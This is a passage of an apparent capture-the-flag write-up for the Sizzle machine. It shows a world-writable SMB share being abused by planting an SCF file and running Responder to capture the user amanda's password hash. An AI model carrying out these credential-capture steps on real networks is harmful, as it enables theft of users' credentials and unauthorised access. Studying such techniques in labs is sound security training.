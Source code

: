 After enumerating all directories, we find out that `Everyone` has `FULL` access to `Users/Public` 🎉 (Figure 11) !

<figure><img src="../../.gitbook/assets/sizzle_public_acl.png" alt=""><figcaption><p>Figure 11: Everyone has FULL access to the Public folder!</p></figcaption></figure>

Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), we get `amanda`'s hash (Figure 13) !

```bash
# creating an scf file
nano important.scf
# copying the file to the writable directory
sudo cp important.scf SMB/Users/Public/
# firing up responder
sudo responder -I tun0
```

<figure><img src="../../.gitbook/assets/sizzle_upload_scf.png" alt=""><figcaption><p>Figure 12: Creating an SCF file and uploading it to the writable directory.</p></figcaption></figure>
